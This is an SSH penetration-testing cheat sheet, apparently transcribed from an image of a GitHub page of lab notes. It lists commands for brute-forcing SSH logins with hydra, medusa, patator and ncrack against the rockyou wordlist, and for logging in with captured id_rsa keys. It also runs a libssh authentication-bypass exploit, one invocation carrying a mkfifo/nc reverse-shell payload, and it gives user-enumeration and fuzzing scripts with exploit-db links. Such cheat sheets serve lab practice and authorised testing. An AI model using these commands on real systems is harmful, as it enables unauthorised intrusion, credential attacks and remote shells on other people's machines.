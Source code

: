 ```

SSH no matching key exchange method found:

ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 bob@10.11.1.136

Force Auth Method:

$ ssh -v 10.10.1.111 -o PreferredAuthentications=password
...
debug1: Next authentication method: password

SSH Login with id_rsa file:

$ ssh -i id_rsa fox@192.168.152.126

SSH via Git:

$ GIT_SSH_COMMAND='ssh -i id_rsa -o IdentitiesOnly=yes' git clone ssh://git@192.168.212.125:43022/git-server (non-standard port)

$ GIT_SSH_COMMAND='ssh -i ~/Proving_Grounds/Hunit/id_rsa -o IdentitiesOnly=yes' git push (Done from within the git repo)

BruteForce:

patator ssh_login host=10.11.1.111 port=22 user=root 0=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt password=FILE0 -x ignore:mesg='Authentication failed.'
hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111
medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh
ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111

LibSSH Before 0.7.6 and 0.8.4 - LibSSH 0.7.6 / 0.8.4 - Unauthorized Access
Id
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 id
Reverse
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.1.111 80 >/tmp/f"

SSH FUZZ
https://dl.packetstormsecurity.net/fuzzer/sshfuzz.txt

cpan Net::SSH2
./sshfuzz.pl -H 10.10.1.111 -P 22 -u user -p user

use auxiliary/fuzzers/ssh/ssh_version_2

SSH-AUDIT
https://github.com/arthepsy/ssh-audit

• https://www.exploit-db.com/exploits/18557 ~ Sysax 5.53 – SSH ‘Username’ Remote Buffer Overflow
• https://www.exploit-db.com/exploits/45001 ~ OpenSSH < 6.6 SFTP – Command Execution
• https://www.exploit-db.com/exploits/45233 ~ OpenSSH 2.3 < 7.7 – Username Enumeration
• https://www.exploit-db.com/exploits/46516 ~ OpenSSH SCP Client – Write Arbitrary Files

http://www.vegardno.net/2017/03/fuzzing-openssh-daemon-using-afl.html


SSH Enum users < 7.7:
https://github.com/six2dez/ssh_enum_script
https://www.exploit-db.com/exploits/45233
python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt IP 2>/dev/null | grep "is a"

```